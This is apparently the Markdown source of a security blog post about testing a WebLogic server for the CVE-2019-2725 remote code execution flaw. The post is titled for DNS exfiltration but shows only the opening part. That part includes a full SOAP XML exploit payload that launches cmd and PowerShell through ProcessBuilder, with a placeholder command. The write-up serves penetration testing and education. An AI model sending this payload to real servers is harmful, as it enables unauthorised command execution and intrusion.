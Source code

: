 ```yaml
---
layout: single_c
title:  "DNS Exfilteration"
date:   2020-10-20 10:43:16 +0530
toc: true
categories: Web
tags: DNS
classes: wide
---
```

## Description

I was doing a security testing against a web server running `WebLogic`. A potential RCE due to CVE-2019-2725 was reported and I was verifying it.
I was following the PoC given [here](http://www.0xby.com/1589.html). 

I was getting the following page while accessing the application.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/dns/1.1.png){: .align-center}
image 1.1

There were RCE available payloads for windows and linux. The following payload was used to trigger the RCE for windows.

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>cmd</string>
</void>
<void index="1">
<string>/c</string>
</void>
<void index="2">
<string>powershell "code to execute"</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```
